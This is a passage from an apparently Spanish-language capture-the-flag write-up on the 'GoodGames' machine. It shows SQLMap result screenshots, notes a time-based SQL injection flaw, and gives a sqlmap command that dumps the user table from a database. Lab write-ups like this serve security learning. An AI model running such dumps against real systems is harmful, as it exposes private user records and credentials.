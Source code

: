 ![SQLMap resultado 1](/secciones/posts/imagenes/goodgames/sqli1.webp)

![SQLMap resultado 2](/secciones/posts/imagenes/goodgames/sqli2.webp)

![SQLMap resultado 3](/secciones/posts/imagenes/goodgames/sqli3.webp)

Es vulnerable a SQL injection basado en tiempo. Buscaremos a los usuarios:

```bash
sqlmap -r sql --batch -D principal -T usuario --dump
```
